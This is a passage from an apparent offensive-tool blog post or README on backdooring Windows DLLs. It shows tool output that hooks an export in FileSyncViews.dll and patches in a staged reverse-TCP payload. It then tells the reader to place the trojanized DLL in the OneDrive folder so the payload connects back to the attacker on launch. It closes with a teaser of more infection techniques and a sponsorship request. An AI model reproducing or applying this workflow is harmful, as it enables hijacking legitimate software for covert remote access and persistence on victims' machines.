 ```bash
7. Section Name: b'.rdata1\x00'; Section Begin: 0x313200 End: 0x314200; Cave begin: 0x313ead End: 0x31407d; Cave Size: 464; Characteristics: 0xc0000040
**************************************************
[!] Enter your selection: 7
[!] Using selection: 7
==================================================
2023-12-22 18:12:32,INFO,dll_core.py,Found Export: 28, [3074938, 3070330, b'?StartQtApp@QtViews@@YAXAEAHPEAVIResourceProvider@@PEAVICrossPlatformWindowManager@@@Z']
2023-12-22 18:12:32,INFO,dll_core.py,Export Info: [24656, 3066692, 21584, False]
2023-12-22 18:12:32,INFO,dll_core.py,Hooking this function
2023-12-22 18:12:32,INFO,text_loader_dll_reverse_tcp_staged_threaded.py,CreateThread stub len: 0x43, 67
2023-12-22 18:12:32,INFO,support.py,[*] Patching file with patch_instr
2023-12-22 18:12:32,INFO,core.py,[*] Updating PE file checksum
2023-12-22 18:12:33,INFO,backdoor.py,[*] Patching successful!
2023-12-22 18:12:33,INFO,backdoor.py,[*] Output in backdoored/FileSyncViews.dll

```

Using the same settings as above, except for the `EXPORTS` option, we can see that the export is hooked and the payload is patched into the binary. Now, dropped this bianry in `%LOCALAPPDATA%\Microsoft\OneDrive\` and start OneDrive. You'll see a connection back to your host and port. 



### Conclusion
There you have it. There are additional ways to do file infection on DLLs that haven't been discussed yet publicly, probably with smaller initial payload loader. I'll get to that in a future code release and blog post.

Join my sponsor community on GitHub to access advanced features, personalized support, and early releases. Your sponsorship fuels ongoing development and innovation. [Become a Sponsor](https://github.com/secretsquirrel/sponsors).

 




